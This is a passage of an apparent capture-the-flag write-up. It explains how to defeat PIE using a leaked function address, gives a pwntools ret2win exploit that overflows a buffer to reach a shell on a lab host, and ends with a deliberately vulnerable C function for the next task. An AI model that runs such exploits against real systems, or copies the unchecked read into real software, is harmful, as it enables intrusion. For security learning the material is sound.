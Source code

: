 This is another ret2win (with win here being a shell) but this is a PIE executable, meaning its base address is randomised. Helpfully the function prints out the address of its own function for you, which is called a 'leak' in pwn circles. This allows us to bypass the PIE protection:

1. we can ahead of time find the address of both `vuln` and `win`.
2. we read the leak as the program is running, and subtract the address of vuln from it to get the base address.
3. we then add the address of win to the base address, to get its real address
4. we use this for the overflow as normal.

Because we need to read and calculate the addresses during execution flow, this is easier to do with pwntools which has plenty of utils for this purpose. It could be done with bash, or any programming language, but pwntools is on the attack box and is easy:

```python
from pwn import *

p = remote('10.10.88.29, 9007') # process("./random")

p.readuntil(b"give you a secret ");
read_addr = p.readline()
read_addr = read_addr.strip()
read_addr = int(read_addr, 16)

target_addr = read_addr - 265
target_addr = p64(target_addr)

ret_address = read_addr - 767
ret_address = p64(ret_address)

p.clean()

padding = b"A" * 264
payload = padding + ret_address + target_addr

p.sendline(payload)
p.interactive()
```

In the above code, I precalculated the difference between the vuln address and win, rather than offsetting off the base address, but the principle is the same. Note I still needed the 'ret' instruction for stack alignment, which I also needed to adjust for the live address.

## Task 8

Code:

```c
void vuln(){
    char *buf[0x20];
    puts("Again? Where this time? : ");
    read(0, buf, 0x200);
    puts("\nok, let's go!\n");
    }

int main(){
    setup();
    vuln();

}
```
